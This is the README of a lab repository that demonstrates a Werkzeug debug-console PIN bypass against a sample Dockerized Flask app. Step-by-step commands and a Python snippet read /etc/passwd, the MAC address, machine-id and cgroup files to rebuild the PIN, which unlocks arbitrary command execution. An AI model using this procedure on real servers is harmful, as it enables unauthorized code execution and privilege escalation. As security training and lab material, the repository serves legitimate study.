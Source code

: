 # Werkzeug Debug Console Pin Bypass
Werkzeug has a debug console that requires a pin by default. It's possible to bypass this with an LFI vulnerability or use it as a local privilege escalation vector. The debug console will lock after 10 invalid attempts which requires the server to be restarted for another 10 guesses.

The Werkzeug documentation warns users to **never** enable the debug console in production with or without a pin (https://werkzeug.palletsprojects.com/en/2.0.x/debug/#debugger-pin).

This repo provides a sample application to play with the `/console` endpoint on a dummy Flask application.

# How to use

1. Clone this repo
```
$ git clone https://wdahlenburg/werkzeug-debug-console-bypass
```

2. Build the Docker image
```
$ docker build -t werkzeug-debug-console:latest .
```

3. Run the Docker image
```
$ docker run -p 7777:7777 werkzeug-debug-console:latest
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://172.17.0.4:7777/ (Press CTRL+C to quit)
 * Restarting with stat
User: werkzeug-user
Module: flask.app
Module Name: Flask
App Location: /usr/local/lib/python3.9/site-packages/flask/app.py
Mac Address: 2485377892356
Werkzeug Machine ID: b'ea1fc30b6f4a173cea015d229c6b55b69d0ff00819670374d7a02397bc236523a57e9bab0c6e6167470ac65b66075388'

 * Debugger is active!
 * Debugger PIN: 118-831-072
```

Your server should be running on port 7777 at this point. The PIN will be displayed in the Docker logs, which is what you will be trying to recreate.


### Exploiting as a local privilege escalation

A scenario that could come up is that the Flask server is running under a certain user with privileges X. You are a local user on the system with privileges Y. You have the ability to access the same information that Werkzeug uses to generate the PIN for the user running the server. Successfully unlocking the console provides OS command injection as the user running the server.

At any point if you are unsure, you can reference the Docker logs to see the expected values for each parameter.

1. Open up a new terminal and log into Docker as some other user

```
$ docker ps                                            
CONTAINER ID   IMAGE                               COMMAND                  CREATED          STATUS          PORTS                                                                                                                                                                                          NAMES
9d0ff0081967   werkzeug-debug-console:latest       "python3 /app/server…"   16 minutes ago   Up 16 minutes   0.0.0.0:7777->7777/tcp, :::7777->7777/tcp

$ docker exec -u 0 -it 9d0ff0081967 /bin/bash
root@9d0ff0081967:/app#
```

2. Take a look at https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py for references
3. Identify the user running the server on port 7777
```
$ ps auxww | grep server
werkzeu+     1  0.0  0.1  34992 28072 ?        Ss   15:50   0:00 python3 /app/server.py
werkzeu+    10  0.0  0.1  35248 23780 ?        S    15:50   0:00 python3 /app/server.py
werkzeu+    11  0.0  0.1  35072 28276 ?        S    15:50   0:00 /usr/local/bin/python3 /app/server.py
werkzeu+    12  0.7  0.1 109316 25500 ?        Sl   15:50   0:08 /usr/local/bin/python3 /app/server.py
```
It's likely the werkzeu user is running the server, but the name is truncated.

```
$ cat /etc/passwd
...
werkzeug-user:x:1000:1000::/home/werkzeug-user:/bin/sh
```

4. Copy the `werkzeug-user` into the username field of the `werkzeug-pin-bypass.py` file.

5. Find the correct path to Flask
```
$ find / -name "app.py" 2>/dev/null
/usr/local/lib/python3.9/site-packages/flask/app.py
```

6. Update the `werkzeug-pin-bypass.py` file with this information. The location will be different if alternate Python versions or OS's are used.
7. Grab the Mac Address of the interface the server is hosting on:
```
$  python3
Python 3.9.7 (default, Sep  3 2021, 02:02:37) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import uuid
>>> str(uuid.getnode())
'2485377892356'
```

OR

```
$ cat /sys/class/net/eth0/address 
02:42:ac:11:00:04
root@9d0ff0081967:/app# python3
Python 3.9.7 (default, Sep  3 2021, 02:02:37) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> "".join("02:42:ac:11:00:04".split(":"))
'0242ac110004'
>>> print(0x0242ac110004)
2485377892356
```
9. Update the Mac address in the `werkzeug-pin-bypass.py` file.
10. In python3 run the following script to generate the machine id
```python3
machine_id = b""
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
    try:
        with open(filename, "rb") as f:
            value = f.readline().strip()
    except OSError:
        continue

    if value:
        machine_id += value
        break
try:
    with open("/proc/self/cgroup", "rb") as f:
        machine_id += f.readline().strip().rpartition(b"/")[2]
except OSError:
    pass

print(machine_id)
```
12. Update the machine id in the `werkzeug-pin-bypass.py` file.
13. Go ahead and run the werkzeug-pin-bypass.py on the attacking machine
```
$  python3 ./werkzeug-pin-bypass.py
Pin: 118-831-072
```

If all goes well you should have the same Pin as the one displayed in the Docker logs. If not, recheck your steps. If you are on an old version of Werkzeug, try changing the hashing algorithm to md5 instead of sha1.

The pin can be accepted at http://127.0.0.1/console. Once the system is unlocked you can run any python commands you want.

# Credit
The original research was done here: https://www.daehee.com/werkzeug-console-pin-exploit/
The LFI vector is listed here: https://github.com/grav3m1nd-byte/werkzeug-pin
